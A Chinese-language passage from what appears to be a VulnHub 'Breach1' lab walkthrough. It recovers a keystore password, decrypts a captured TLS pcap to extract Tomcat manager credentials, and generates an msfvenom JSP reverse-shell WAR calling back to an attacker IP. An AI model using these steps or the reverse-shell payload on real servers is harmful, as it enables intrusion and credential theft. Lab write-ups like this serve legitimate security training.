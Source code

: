 **查看.keystore文件信息**

```sh
keytool -list -v -keystore keystore
```

需要输入密码

http://192.168.110.140/impresscms/modules/profile/index.php?uid=2

![image-20250215153518530](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250215153518530.png)

找到以下内容：

![image-20250215153607140](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250215153607140.png)

密码是`tomcat`

将Keystore转P12类型

```sh
keytool -importkeystore -srckeystore keystore -destkeystore keystore.p12 -deststoretype pkcs12
Importing keystore keystore to keystore.p12...
Enter destination keystore password:  
Re-enter new password: 
Enter source keystore password:  
Entry for alias tomcat successfully imported.
Import command completed:  1 entries successfully imported, 0 entries failed or cancelled

┌──(kali㉿kali)-[~/vulnhub/Breach1]
└─$ file keystore.p12 
keystore.p12: data
```

下载了这个流量包

http://192.168.110.140/impresscms/_SSL_test_phase1.pcap

TLS协议加密，需要导入密钥解密

![image-20250215154128168](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250215154128168.png)

![image-20250215154325690](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250215154325690.png)

解密成功

![image-20250215154406222](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250215154406222.png)

`tomcat:Tt\5D8F(#!*u=G)4m7zB`

登录到tomcat后台

war包部署

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.110.7 LPORT=1234 -f war > shell.war
```

## 提权
